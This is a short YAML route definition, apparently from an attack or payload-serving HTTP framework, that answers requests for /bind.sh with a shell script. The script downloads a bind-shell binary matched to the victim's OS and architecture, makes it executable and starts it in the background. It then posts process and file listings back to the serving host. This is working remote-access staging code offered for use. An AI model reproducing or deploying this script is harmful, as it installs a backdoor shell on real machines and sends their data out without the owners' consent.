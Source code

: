 ```yaml
---
title: Bind Shell
description: Requires bind-shell in static dir
weight: 1
pattern: /bind.sh$
is_final: true
data:
  headers:
    Content-Type: text/plain
  body: |
    DEST_FILE=/tmp/bs
    killall bs
    OS=$(uname)
    ARCH=$(uname -m)
    curl {{.Request.Host}}/mdaas/$OS/$ARCH/bind-shell > $DEST_FILE
    chmod +x $DEST_FILE
    bash -c "$DEST_FILE > /tmp/bso 2>&1 &" &
    r=$(ps aux | grep bs ;cat /tmp/bso; ls -lah /tmp/bs)
    disown

    echo $r
    curl "{{.Request.Host}}/l/res/" --data "$r" -X POST
---
```

